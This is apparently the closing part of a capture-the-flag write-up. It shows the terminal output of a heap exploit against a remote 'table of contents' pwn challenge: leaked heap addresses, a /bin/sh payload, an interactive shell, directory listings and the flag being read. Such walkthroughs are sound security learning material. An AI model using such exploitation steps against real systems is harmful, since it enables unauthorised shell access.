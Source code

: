 ```
knittingirl@piglet:~/CTF/romCTF/pwn_table_of_contents$ python3 tableofcontents_=
I IS THE NUMBER -130
[+] Opening connection to 142.93.44.199 on port 31159: Done
b'WELCOME!\n1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5)'
b'\n> Enter title'
b' > 1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave '
b'\n> /bin/sh\x000\x1e@\x00\x00\x00\x00\x000\x1e@\x00\x00\x00\x00\x000\x1e@\x00'
b'\n> What index to get?'
b' 1) Borrow book\n2) Add a page\n3) Tear out page'
b'\n> Your reference number is: '
b'0xbbaf90'
0xbbaf90
0xbb9eb0
b'1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave fee'
b'\n> \x00\x00\x01\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\'
b'\n> Enter reference number'
b': Thank you for returning the book\n1) Donate book\n2) List books\n3) Fetch a'
b'\n> Enter reference number'
b': Thank you for returning the book\n1) Donate book\n2) List books\n3) Fetch a'
b'\n> Enter index of book for feedback:'
b' Enter feedback:'
b''
[*] Switching to interactive mode
 $ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ ls home
ctf
$ ls home/ctf
flag.txt
toc
$ cat home/ctf/flag.txt
HTB{L00ks_l1k3_th3_fl4g_15_0n_p4g3_74!}

```
Thanks for getting to the end of this one!
